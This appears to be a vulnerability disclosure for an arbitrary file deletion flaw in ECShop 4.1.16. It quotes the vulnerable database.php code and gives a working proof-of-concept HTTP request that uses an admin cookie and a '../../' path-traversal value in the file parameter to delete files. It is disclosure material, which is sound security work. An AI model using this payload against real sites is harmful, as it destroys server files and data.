 #ECShop_v4.1.16 Arbitrary File Deletion Vulnerability

#####1. Affected version

```
 ECShop <= 4.1.16
```

#####2. Firmware download address

[https://www.ecshop.com/download](https://www.ecshop.com/download)

or the source directory and readme directory of this repository are ECShop_ Source code for v4.1.16

#####3. Vulnerability details

 Starting from line 266 of the file  source  on "\source\ecshop\admin\database.php".

```php
if ($_REQUEST['act'] == 'remove') {
    /* 权限判断 */
    admin_priv('db_backup');

    if (isset($_POST['file'])) {
        $m_file = array(); //多卷文件
        $s_file = array(); //单卷文件
        
        $path = ROOT_PATH . DATA_DIR . '/sqldata/';
        
        foreach ($_POST['file'] as $file) {
            if (preg_match('/_[0-9]+\.sql$/', $file)) {
                $m_file[] = substr($file, 0, strrpos($file, '_'));
            } else {
                $s_file[] = $file;
            }
        }

        if ($m_file) {
            $m_file = array_unique($m_file);

            /* 获取文件列表 */
            $real_file = array();

            $folder = opendir($path);
            while ($file = readdir($folder)) {
                if (preg_match('/_[0-9]+\.sql$/', $file) && is_file($path . $file)) {
                    $real_file[] = $file;
                }
            }

            foreach ($real_file as $file) {
                $short_file = substr($file, 0, strrpos($file, '_'));
                if (in_array($short_file, $m_file)) {
                    @unlink($path . $file);
                }
            }
        }

        if ($s_file) {
            foreach ($s_file as $file) {
                @unlink($path . $file);
            }
        }
    }

    sys_msg($_LANG['remove_success'], 0, array(array('text' => $_LANG['restore'], 'href' => 'database.php?act=restore')));
}
```

![image-20230722001551622](assets/image-20230722001551622.png)

We can find that for the file parameter passed in by POST, the $s_file variable is not filtered, and any file can be deleted by using directory splicing.

#####4. Vulnerability verification

First, in the \source\ecshop directory, create a file named 123.php to verify the vulnerability.

![image-20230722002201315](assets/image-20230722002201315.png)

Then we use the burpsuite tool to capture the packet and log in to the administrator account to obtain the administrator's cookie.

```
/admin/privilege.php?act=login
```

![image-20230722002726749](assets/image-20230722002726749.png)

Login successful:

![image-20230722002808484](assets/image-20230722002808484.png)

Copy the administrator's  cookie. 

![image-20230722002921130](assets/image-20230722002921130.png)

Then construct the exploit, fill in the administrator's cookie and your host.

```
POST /admin/database.php HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/111.0.0.0 Safari/537.36 Edg/111.0.1661.54
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: 
Upgrade-Insecure-Requests: 1
If-Modified-Since: Fri, 21 Jul 2023 13:53:04 GMT
Content-Type: application/x-www-form-urlencoded
Content-Length: 26

act=remove&file[]=../../123.php
```

Finally, send the constructed request packet.

![image-20230722003608753](assets/image-20230722003608753.png)

We can find that the 123.php file has been deleted.

![image-20230722003553849](assets/image-20230722003553849.png)